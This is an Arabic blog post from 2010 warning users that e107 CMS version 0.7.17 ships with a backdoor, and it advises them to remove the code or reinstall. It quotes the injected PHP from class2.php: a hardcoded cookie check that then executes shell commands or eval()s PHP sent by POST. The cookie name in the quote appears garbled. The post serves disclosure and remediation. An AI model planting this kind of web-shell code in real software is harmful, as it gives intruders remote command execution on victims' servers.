 ```yaml
---
author: يوغرطة بن علي (Youghourta Benali)
date: 2010-01-27 12:37:13+00:00
draft: false
title: اكتشاف Backdoor في آخر إصدار من نظام إدارة المحتوى e107
type: post
url: /2010/01/%d8%a7%d9%83%d8%aa%d8%b4%d8%a7%d9%81-backdoor-%d9%81%d9%8a-%d8%a2%d8%ae%d8%b1-%d8%a5%d8%b5%d8%af%d8%a7%d8%b1-%d9%85%d9%86-%d9%86%d8%b8%d8%a7%d9%85-%d8%a5%d8%af%d8%a7%d8%b1%d8%a9-%d8%a7%d9%84%d9%85/
categories:
- Open source
- Security
- Web
tags:
- backdoor
- cms
- e107
---
```


[**اكتشاف Backdoor في آخر إصدار من نظام إدارة المحتوى e107**](https://www.it-scoop.com/2010/01/%d8%a7%d9%83%d8%aa%d8%b4%d8%a7%d9%81-backdoor-%d9%81%d9%8a-%d8%a2%d8%ae%d8%b1-%d8%a5%d8%b5%d8%af%d8%a7%d8%b1-%d9%85%d9%86-%d9%86%d8%b8%d8%a7%d9%85-%d8%a5%d8%af%d8%a7%d8%b1%d8%a9-%d8%a7%d9%84%d9%85/)




إذا كنت من هواة أنظمة إدارة المحتوى أو ما يعرف اختصارا بـ CMS و كنت أحد مستعملي نظام e107 فإنه يستحسن أن تتحقق من آخر إصدار من نظام e107 حيث أن تحاليل أثبتت احتواءه على Backdoor.




[](https://www.it-scoop.com/2010/01/%d8%a7%d9%83%d8%aa%d8%b4%d8%a7%d9%81-backdoor-%d9%81%d9%8a-%d8%a2%d8%ae%d8%b1-%d8%a5%d8%b5%d8%af%d8%a7%d8%b1-%d9%85%d9%86-%d9%86%d8%b8%d8%a7%d9%85-%d8%a5%d8%af%d8%a7%d8%b1%d8%a9-%d8%a7%d9%84%d9%85/)




حيث نصح Bogdan Calin العامل لدى Acunetix بتجنب استعمال  الإصدار 0.7.17 التي صدرت حديثا لأنها تحوي الشيفرة التالية:





<blockquote>

> 
> 

> 
> if(md5($_COOKIE['access-يوغرطة بن علي (Youghourta Benali)']) == "cf1afec15669cb96f09befb7d70f8bcb") {
> 
> 

> 
> ...
> 
> 

> 
> if(!empty($_POST['cmd'])){
$out = execute($_POST['cmd']);
}
> 
> 

> 
> elseif(!empty($_POST['php'])){
ob_start();
eval($_POST['php']);
$out = ob_get_contents();
ob_end_clean();
}
> 
> 
</blockquote>




في الملف _class2.php_ .




و هو ما يعني استعمال لـ Cookie ثابت يسهل عملية اختراق النظام و الحصول على صلاحيات المدير.




من المرجح أن سبب وجود الـ Backdoor هو تعرض أحد الخوادم التي يُحمَّل منها النظام إلى تغيير في المحتوى.




إذا كنت تستعمل هذا النظام و كنت قد نصبت هذا الإصدار، كل ما عليك هو حذف الشيفرة المبنية أعلاه من الملف المصاب، أو إعادة تحميل النظام من جديد و الذي تم تصحيح الخلل فيه.




يمكن الإطلاع على تفاصيل الثغرة من [هنا](http://lists.grok.org.uk/pipermail/full-disclosure/2010-January/072688.html) و [هنا](http://seclists.org/bugtraq/2010/Jan/217)




-   هل تستعمل أنظمة إدارة المحتوى بصفة عامة و نظام e107 خاصة ؟




-   هل أنت من مؤيدي أنظمة أدارة المحتوى؟ أم تفضل كتابة جميع صفحات موقعك من الصفر؟
